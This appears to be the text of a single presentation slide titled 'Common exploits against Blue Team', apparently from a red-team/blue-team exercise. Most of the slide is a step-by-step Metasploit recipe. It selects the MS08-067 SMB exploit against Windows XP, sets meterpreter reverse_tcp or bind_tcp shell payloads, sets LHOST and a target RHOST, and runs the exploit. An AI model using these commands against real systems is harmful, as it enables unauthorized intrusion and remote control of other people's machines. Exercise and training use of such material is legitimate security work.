

# Common exploits against Blue Team
SSH
TELNET
For win xp:
In metasploit framework: search ms08_067_netapi
Use exploits/windows/smb/ms08_067_netapi
For window xp sp1
Set PAYLOAD windows/meterpreter/reverse_tcp
For windows xp sp3
Set PAYLOAD windows/meterpreter/bind_tcp
Set LHOST 127.0.0.1
Set RHOST 172.24.116.60
Exploit